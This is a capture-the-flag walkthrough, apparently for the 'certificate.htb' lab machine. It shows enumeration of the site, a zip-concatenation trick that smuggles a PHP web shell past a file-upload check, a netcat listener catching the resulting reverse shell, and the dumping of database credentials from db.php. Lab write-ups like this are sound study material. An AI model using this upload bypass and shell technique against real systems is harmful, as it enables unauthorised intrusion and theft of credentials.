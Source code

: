 Start to enumerate website
Files in root directory:
```
login                   [Status: 200, Size: 9412, Words: 831, Lines: 230, Duration: 291ms]           
register                [Status: 200, Size: 10916, Words: 932, Lines: 256, Duration: 228ms]
index                   [Status: 200, Size: 22420, Words: 5934, Lines: 582, Duration: 225ms]
about                   [Status: 200, Size: 14826, Words: 3211, Lines: 372, Duration: 224ms]
blog                    [Status: 200, Size: 21940, Words: 1403, Lines: 566, Duration: 225ms]
header                  [Status: 200, Size: 1848, Words: 427, Lines: 46, Duration: 2563ms]
footer                  [Status: 200, Size: 2955, Words: 164, Lines: 71, Duration: 306ms]
contacts                [Status: 200, Size: 10605, Words: 887, Lines: 264, Duration: 127ms]
upload                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2398ms]
courses                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 95ms]
About                   [Status: 200, Size: 14826, Words: 3211, Lines: 372, Duration: 147ms]
db                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 218ms] 
```


Looking at the website it seem is have file upload, but the file should be compressed first then get uploaded. 
We will use this trick [[Zip Upload]] .
```
> ls mal
shell.php

> zip head.zip file.pdf ;
> zip -r tail.zip malicious_dir ;
> cat head.zip tail.zip > main.zip
```

Then we upload this zip file, and instead of requesting `file.pdf` we will request `malicious_dir/shell.php`. And we should have our listener up.
```
rlwrap nc -lnvp 4444
Listening on 0.0.0.0 4444         
Connection received on 10.10.11.71 51382   
SOCKET: Shell has connected! PID: 1604
Microsoft Windows [Version 10.0.17763.6532]
(c) 2018 Microsoft Corporation. All rights reserved.                                             
 
C:\xampp\htdocs\certificate.htb\static\uploads\8b5d16fef8657ce608dd90c3ef106207\mal>
```

looking at `db.php`:
```
C:\xampp\htdocs\certificate.htb>type db.php                                                                                                                                                       
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
}
?>
```
